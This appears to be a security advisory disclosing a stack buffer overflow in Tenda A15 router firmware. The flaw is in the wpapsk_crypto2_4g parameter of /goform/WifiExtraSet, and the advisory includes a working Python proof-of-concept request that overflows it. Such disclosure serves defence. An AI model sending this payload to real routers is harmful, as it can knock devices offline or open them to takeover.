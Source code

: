 ## Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "wpapsk_crypto2_4g" parameter at /goform/WifiExtraSet.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the fromSetWirelessRepeat function, get the wpapsk_crypto2_4g parameter via websGetVar and pass it to the fifth parameter of set_repeat24

![1703732437002](image/WifExtraSet.zh-cn/1703732437002.png)

In the set_repeat24 function, the wpapsk_crypto variable is used in the strcpy function without any length checksum, which could lead to an attacker exploiting this buffer overflow to perform DOS attacks and RCE attacks.

![1703732509167](image/WifExtraSet.zh-cn/1703732509167.png)

## POC

```python
import requests

ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
    'configured2_4g': 'true',
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

res = requests.post(url=url, data=payload)

print(res)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443583/video_to_markdown/images/youtube---j6ZD_bxYnw-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/-j6ZD_bxYnw "")

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html

## Acknowledgment

The vulnerability belongs to Chenjun Ma from Wuhan University.
